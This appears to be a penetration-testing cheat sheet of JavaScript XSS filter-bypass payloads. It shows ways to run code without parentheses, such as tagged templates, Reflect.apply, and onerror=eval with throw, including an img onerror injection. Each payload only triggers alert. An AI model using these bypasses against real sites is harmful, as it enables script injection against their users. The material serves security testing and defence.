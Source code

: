````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
  // or any DOMXSS sink such as location=name

// Backtips
  // Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

  // To pass several arguments you can use
function btt(){
    console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

  //It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

  // .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
  // This happened in the previous example
  // Change "this" value of call to "1,"
  // match anything with regex /./
  // call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

  // Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
  // Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
  // These operations are called when the object is used as a primitive
  // Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
````